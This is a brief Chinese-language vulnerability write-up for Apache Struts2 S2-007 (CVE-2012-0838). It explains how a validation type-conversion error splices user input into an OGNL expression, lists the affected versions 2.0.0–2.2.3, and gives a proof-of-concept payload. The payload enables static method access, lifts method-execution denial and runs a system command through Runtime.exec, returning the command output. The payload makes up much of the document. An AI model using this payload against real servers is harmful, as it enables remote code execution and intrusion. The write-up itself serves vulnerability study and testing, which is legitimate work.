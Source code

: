 # （CVE-2012-0838）s2-007

## 一、漏洞简介

当配置了验证规则，类型转换出错时，进行了错误的字符串拼接，进而造成了OGNL语句的执行。后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析,比较类似SQL注入单引号闭合,插入语句,官方修复的时候也跟sql注入比较相似,escape 对单引号转义

## 二、漏洞影响

2.0.0-2.2.3

## 三、复现过程

### poc

```bash
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '

```

